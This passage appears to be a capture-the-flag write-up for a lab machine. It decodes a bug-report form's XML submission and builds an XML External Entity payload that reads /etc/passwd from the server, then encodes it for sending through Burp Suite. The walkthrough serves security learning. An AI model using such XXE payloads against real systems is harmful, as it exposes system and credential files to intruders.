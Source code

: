 
Let's decode the encoded data

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>Test</title>
		<cwe>123</cwe>
		<cvss>1234</cvss>
		<reward>1337</reward>
		</bugreport>
```

Here we can see that the data is sent in the form of XML, which means that the webpage is likely vulnerable to `XML External Entities (XXE)`

To know more about the vulnerability, check out this [blog](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)

Let's construct a XXE payload so that we can pull out some sensitive files from the server and confirm the vulnerabilty.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
<cwe>123</cwe>
<cvss>1337</cvss>
<reward>&file;</reward>
</bugreport>
```

Let's encode the payload with base64 and then url encode it and sent it to server using burpsuite.

![bountyhunter](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/bountyhunter/6.png)
